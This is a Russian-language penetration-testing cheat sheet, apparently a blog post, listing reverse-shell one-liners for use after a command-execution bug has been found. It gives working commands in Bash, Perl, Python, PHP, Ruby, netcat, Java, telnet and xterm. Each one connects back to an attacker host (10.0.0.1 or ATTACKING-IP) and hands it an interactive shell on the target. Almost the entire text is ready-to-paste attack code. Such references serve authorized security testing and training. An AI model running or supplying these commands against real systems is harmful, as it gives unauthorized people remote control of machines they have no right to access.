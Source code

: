 ```yaml
---
layout: post
categories: cheatsheets_rus
published: true
---
```

# Оглавление
{:.no_toc}

* toc
{:toc}

# Общие слова

Если тебе повезло обнаружить уязвимость выполнения команд во время теста на проникновение, довольно скоро тебе захочется интерактивный шелл.

Если не получается добавить новый аккаунт / SSH ключ / .rhosts файл, твой следующий шаг, вероятно, будет либо делать обратный шелл, либо привязывать оболочку к порту TCP. Эта страница поможет с первым.

Варианты делать обратный шелл ограничены языками сценариев, установленными в целевой системе, хотя также можете загрузить бинарник, если достаточно хорошо подготовиться.

Показанные примеры предназначены для Unix-подобных систем. Некоторые из приведенных ниже примеров также должны работать в Windows, если вы используете замену “/bin/sh -i” с “cmd.exe”.

Почти каждый из методов приведенных ниже предназначен для использования в качестве одной строки которую можно копировать/вставлять. Это довольно короткие строки, но не очень читаемые.

# Bash

Некоторые версии bash могут помочь с реверс шеллом (тестированно на Ubuntu 10.10):
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
~~~
exec /bin/bash 0&0 2>&0
~~~
# PERL

Вот короткая, не зависищая от фич версия  perl реверс шелла:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

И для Windows

~~~
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~
~~~
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

# Python

Тестированно на Linux/Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

Этот код предполагает TCP соединение с дескриптором 3. Это работало на тест системе. Если не работает, попробуй 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Если хочешь .php файл для загрузки, посмотри более навороченные php.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat редко присутствует в продакшен системах, и даже если там несколько версий netcat, некоторые из них не поддерживают опцию -e.

~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

Если у вас установлена неправильная версия netcat, ты всё равно можешь получить реверс шелл вот так:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()



# Telnet 

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
~~~
~~~
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
~~~

Не забудь также слушать 443 на атакующей машине.

# xterm

Одной из самых простых форм обратной оболочки является xterm. Следующая команда должна быть запущена на сервере. Он попытается подключиться к тебе (10.0.0.1) через TCP-порт 6001.


	xterm -display 10.0.0.1:1

Чтобы перехватить входящий xterm, запусти X-сервер (:1 - который прослушивает TCP-порт 6001). Один из способов сделать это с помощью Xnest (для запуска в твоей системе):

	Xnest :1

Тебе нужно авторизовать цель для подключения (команда также запускается на твоем хосте):

	xhost +targetip
